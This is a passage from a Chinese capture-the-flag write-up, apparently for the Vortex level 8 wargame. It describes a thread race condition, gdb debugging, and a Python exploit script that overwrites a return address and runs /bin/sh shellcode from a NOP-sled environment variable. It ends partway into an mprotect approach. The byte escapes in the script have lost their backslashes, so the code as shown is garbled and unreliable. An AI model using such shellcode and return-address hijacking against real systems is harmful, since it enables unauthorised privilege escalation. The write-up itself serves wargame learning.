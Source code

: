 <p style="text-indent: 2em;">
  然而，运行却发现，我们的程序没有能够打开一个shell，而是不停的输出0，也就是说，我们修改返回地址没能奏效。于是我利用gdb的attach将gdb附加在那个没有停止的程序上，查看0xf7dec33c处的值，果然不是我们设定值，而主线程确实是在我们'xebxfe'设定的死循环处，那我们手动将主线程的eip调整到code的开头处，继续执行，便会发现，成功的打开了shell，屡试不爽。
</p>

<p style="text-indent: 2em;">
  然后再多次重复运行我们的程序后，突然发现，有时候又能够正常弹出shell，这个现象让我们不禁联想到了前面的实验，之前是由于不同线程语句执行顺序导致的，那按照这个思路，仔细想想这次，便会发现，有可能在我们修改返回地址之前，子线程都还没有调用任何函数，这显然会使得我们的修改失去意义。
</p>

<p style="text-indent: 2em;">
  于是，我们给主线程增加一个sleep(2)，延迟修改返回地址，然后再运行我们的程序，便会发现成功获取了shell。其实，我们现在的程序仍旧是可能获取不到shell的，有可能当我们修改返回地址的那个瞬间，正好子线程已经从sleep中返回而又没有来得及再调用，只是这种情况发生的概率较小（个人实验是这样），所以我们可以无视，大不了挂了重新再跑一次就好。于是最终的程序如下：
</p>

<pre class="brush:python;toolbar:false">#!/usr/bin/env&nbsp;python

import&nbsp;subprocess

addr&nbsp;=&nbsp;&#39;x04xddxffxff&#39;
#&nbsp;x6ax02&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;push&nbsp;$0x2
#&nbsp;xbbx90x84x04x08&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;mov&nbsp;$0x8048490,&nbsp;%ebx
#&nbsp;xffxd3&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;call&nbsp;*%ebx
#&nbsp;xb9x3cxb3xe0xf7&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;mov&nbsp;$0xf7e0b33c,&nbsp;%ecx
#&nbsp;xc7x01x04xdfxffxff&nbsp;&nbsp;movl&nbsp;$0xffffdf04,&nbsp;(%ecx)
#&nbsp;xebxfe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;jmp&nbsp;self&nbsp;死循环
code&nbsp;=&nbsp;&#39;x6ax02&#39;&#39;xbbx90x84x04x08&#39;&#39;xffxd3&#39;&#39;xb9x3cxb3xe0xf7&#39;&#39;xc7x01x04xdfxffxff&#39;&#39;xebxfe&#39;
shellcode&nbsp;=&nbsp;"jx0bXx991xc9Rh//shh/binx89xe3xcdx80"
subprocess.Popen([&#39;/vortex/vortex8&#39;,&nbsp;&#39;x90&#39;&nbsp;*&nbsp;1036&nbsp;+&nbsp;addr],&nbsp;env&nbsp;=&nbsp;{&#39;&#39;&nbsp;:&nbsp;&#39;x90&#39;&nbsp;*&nbsp;500&nbsp;+&nbsp;code&nbsp;+&nbsp;&#39;x90&#39;&nbsp;*&nbsp;500&nbsp;+&nbsp;shellcode}).communicate()</pre>



<p style="text-indent: 2em;">
  接下来，我们再尝试一种方法：
</p>

<p style="text-indent: 2em;">
  想要改变一个程序的执行过程，其实最直接的想法便是修改其代码，当然，正常情况下，代码段是不可写的，那我们如何去修改代码段呢？要注意，我们通过unsafecode已经获得了操纵了这个程序，只是，我们没有需要的权限而已，但是，我们是拥有对这个程序自身操作的所有权限的。那么，这也就意味着，我们可以通过mprotect将代码段改为可写的。
</p>

<p style="text-indent: 2em;">
  由于这个程序本身是没有调用过mprotect的，在PLT表中没有mprotect，我们无法直接调用mprotect，但是我们可以通过system call直接调用，Linux的system call是通过软中断0x<a></a>80实现，在/usr/include/asm/unistd.h中，我们可以看到mprotect的系统调用号，也可以通过gdb来查看。
</p>

<p style="text-indent: 2em;">
  通过gdb，我们可以得到：
</p>
